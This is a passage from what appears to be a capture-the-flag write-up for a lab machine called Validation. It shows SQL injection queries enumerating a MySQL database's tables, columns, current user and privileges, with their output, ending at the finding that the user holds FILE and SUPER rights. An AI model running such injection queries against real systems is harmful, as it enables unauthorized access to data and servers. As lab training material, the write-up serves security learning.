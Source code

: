 ```sql
> SELECT table_name FROM information_schema.tables WHERE table_schema = 'registration'
```

```
registration
```

So there's a single table named `registration`, like the name of the database.

#### `registration`'s columns

Let's continue our enumeration of this database by checking the content of the
table we discovered.

```sql
> SELECT column_name FROM information_schema.columns WHERE table_name = 'registration'
```

```
username
userhash
country
regtime
```

Alright, so this table holds four columns. Their names are not really
interesting though, it doesn't look like we will find a password or anything to
connect to Validation. If we explore them, we see that we were correct: these
columns simply contain the values for our registration.

So the content of this database is useless to us.

#### User

Let's check the name of the current user we have access to in the context of the
database session.

```sql
> SELECT user()
```

```
uhc@localhost
```

We're `uhc`. The `localhost` confirms that this database is hosted locally on
Validation.

#### Permissions

Let's check our permissions. Maybe we'll find something interesting?

```sql
> SELECT privilege_type FROM information_schema.user_privileges WHERE grantee = "'uhc'@'localhost'"
```

```
SELECT
INSERT
UPDATE
DELETE
CREATE
DROP
RELOAD
SHUTDOWN
PROCESS
FILE
REFERENCES
INDEX
ALTER
SHOW DATABASES
SUPER
```
